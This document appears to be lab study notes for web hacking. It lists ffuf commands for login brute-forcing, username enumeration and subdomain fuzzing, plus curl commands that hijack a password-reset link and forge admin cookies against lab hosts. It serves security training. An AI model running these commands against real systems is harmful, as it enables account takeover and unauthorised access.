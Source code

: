 ```
# brute force the web site with the list of passwords and valid usernames
ffuf -w user.txt:W1,/usr/share/wordlists/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.217.234/customers/login -fc 200
	
# W1 is our first wordlist which is user.txt
# W2 is our second wordlist which is our password wordlist
# -fc: For a positive match, we're using the -fc argument to check for an HTTP status code other than 200

# find user name on the url
ffuf -u "https://3a5277acca6195eb5691e0c15caf845f-hr.web.cityinthe.cloud/{username}?uid=3a5277acca6195eb5691e0c15caf845f/" -w usernames.txt -H "User-Agent: your-user-agent" -mc all


# subdomain discovery
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.54.23		# we can find size
ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.54.23 -fs {size}	# filter by size




```

===============================================================================
# curl
```
# send data (input) to the web using crul
curl 'http://10.10.217.234/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert'
-d	# specifies the data (input) that we are going to send
-H	# is used for adding additional headers to the request, like "Content-Type: application/x-www-form-urlencoded"

# bypassing the logic flaw to send the rest pass link to our injected email [after above command]
curl 'http://10.10.217.234/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email={username}@customer.acmeitsupport.thm'

curl -X POST \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data-urlencode "file=flag.txt" \
  http://10.10.148.154/challenges/chall1.php

# changing cookies in header
curl -H "Cookie: logged_in=true; admin=false" http://10.10.217.234/cookie-test
curl -H "Cookie: logged_in=true; admin=true" http://10.10.217.234/cookie-test


```
